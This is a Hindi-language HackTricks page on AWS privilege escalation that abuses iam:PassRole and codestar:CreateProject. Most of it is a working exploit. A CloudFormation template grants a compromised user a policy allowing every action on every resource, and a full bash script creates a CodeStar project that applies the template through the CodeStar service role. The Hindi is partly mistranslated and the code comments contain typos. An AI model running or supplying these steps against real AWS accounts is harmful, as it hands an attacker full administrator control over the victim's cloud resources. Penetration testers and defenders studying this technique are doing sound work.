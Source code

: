 # iam:PassRole, codestar:CreateProject

{% hint style="success" %}
AWS हैकिंग सीखें और प्रैक्टिस करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

इन अनुमतियों के साथ आप **codestar IAM रोल का दुरुपयोग** करके **क्लाउडफॉर्मेशन टेम्पलेट** के माध्यम से **विविध क्रियाएँ** कर सकते हैं।

इसे शातित करने के लिए आपको एक **S3 बकेट बनाना होगा जो** हमले किए गए खाते से **पहुंचने योग्य हो**। एक फ़ाइल अपलोड करें जिसका नाम `toolchain.json` है। इस फ़ाइल में **क्लाउडफॉर्मेशन टेम्पलेट शातित** होना चाहिए। निम्नलिखित कोड का उपयोग किया जा सकता है ताकि आपके नियंत्रण में एक उपयोगकर्ता के लिए एक प्रबंधित नीति सेट की जा सके और उसे **प्रशासक अनुमतियाँ** दी जा सकें: 

{% code title="toolchain.json" %}
```json
{
"Resources": {
"supercodestar": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"ManagedPolicyName": "CodeStar_supercodestar",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
]
},
"Users": [
"<compromised username>"
]
}
}
}
}
```
{% endcode %}

इस `खाली zip` फ़ाइल को **बकेट** में **अपलोड** करें:

{% file src="../../../../.gitbook/assets/empty.zip" %}

ध्यान रखें कि **विक्टिम अकाउंट द्वारा दोनों फ़ाइलों वाला बकेट एक्सेस करना चाहिए**।

दोनों चीजों को अपलोड करने के बाद आप **एक्सप्लॉइटेशन** में आगे बढ़ सकते हैं एक **कोडस्टार** प्रोजेक्ट बनाकर:
```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"empty.zip\"
}
},
\"destination\": {
\"codeCommit\": {
\"name\": \"$PROJECT_NAME\"
}
}
}
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"toolchain.json\"
}
},
\"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME \
--source-code file://$SOURCE_CODE_PATH \
--toolchain file://$TOOLCHAIN_PATH
```
यह एक्सप्लॉइट **इन प्रिविलेजेज के पैकू एक्सप्लॉइट पर आधारित है**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997) इसमें आप एक वेरिएशन पा सकते हैं जिससे आप एक यूज़र के बजाय रोल के लिए एक एडमिन प्रबंधित नीति बना सकते हैं।
